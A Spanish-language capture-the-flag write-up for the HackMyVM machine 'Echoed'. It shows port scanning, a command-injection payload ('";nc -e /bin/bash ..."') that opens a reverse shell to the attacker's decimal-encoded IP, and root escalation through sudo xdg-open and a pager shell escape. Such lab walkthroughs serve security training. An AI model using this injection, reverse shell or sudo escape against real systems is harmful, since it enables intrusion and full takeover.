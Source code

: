 ```yaml
---
layout: post
title: Echoed - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/echoed/echoed.png#center)

## Reconocimiento

Como es costumbre, lo primero es una enumeración de los puertos abiertos.

```
$  sudo nmap -p- 192.168.1.41
[sudo] password for kStarting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 07:04 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 100.00% done; ETC: 07:04 (0:00:00 remaining)
Nmap scan report for 192.168.1.41
Host is up (0.000095s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
4444/tcp open  krb524
MAC Address: 08:00:27:40:4F:9C (Oracle VirtualBox virtual NIC)
```

### 80 (http)

En el puerto 80 no hay nada interesante, solo nos dice que hay un prompt en un puerto no común.

```
$ curl 192.168.1.41                                                      
If you dont see Command: prompt in the XXXX port, please restart the VM.
```

## Explotación

### 4444 (Prompt)

Doy por hecho que el prompt está en el puerto 4444 descubierto anteriormente en la enumeración por lo que procedo a conectarme usando **nc**.

```
$ nc 192.168.1.41 4444
Command:test
Found illegal char.Command:a
Executing:echo "a"
a
```

Hay caracteres que si que permite y otros que no. Tras una seríe de comprobaciones consigo una reverse shell utilizando el siguiente comando.

```
Command:";nc -e /bin/bash 3232235862 1234"
```
La ip de mi máquina local está en formato decimal ya que el punto "." es un caracter inválido en el prompt.

## Escalado de privilegios

Tras ejecutar el comando, obtengo la shell como el usuario charlie.

```
$ nc -lvnp 1234       
listening on [any] 1234 ...
connect to [192.168.1.86] from (UNKNOWN) [192.168.1.41] 60916
script -qc /bin/bash /dev/null
charlie@echoed:~$ :)
```

Compruebo sus permisos de sudo y puede ejecutar "/usr/bin/xdg-open" como usuario root.

```
$ sudo -l
sudo -l
Matching Defaults entries for charlie on echoed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charlie may run the following commands on echoed:
    (ALL : ALL) NOPASSWD: /usr/bin/xdg-open
```

Como se puede ver, utiliza el editor (nano/less/vim) por defecto para abrir ficheros de texto y con cualquiera de ellos es sencillo obtener una shell.

![img](/imgs/write-ups/hackmyvm/echoed/echoed_1.png#center)

```
charlie@echoed:/tmp$ cd /tmp
charlie@echoed:/tmp$ echo "test" > test
charlie@echoed:/tmp$ sudo /usr/bin/xdg-open test
sudo /usr/bin/xdg-open test
WARNING: terminal is not fully functional
/tmp/test  (press RETURN)
test
/tmp/test (END)
(END)
(END)
(END)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@echoed:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@echoed:/tmp# :)
```

Y con esto la máquina ya estaría resuelta.

Muchas gracias a **Sml** por esta máquina.
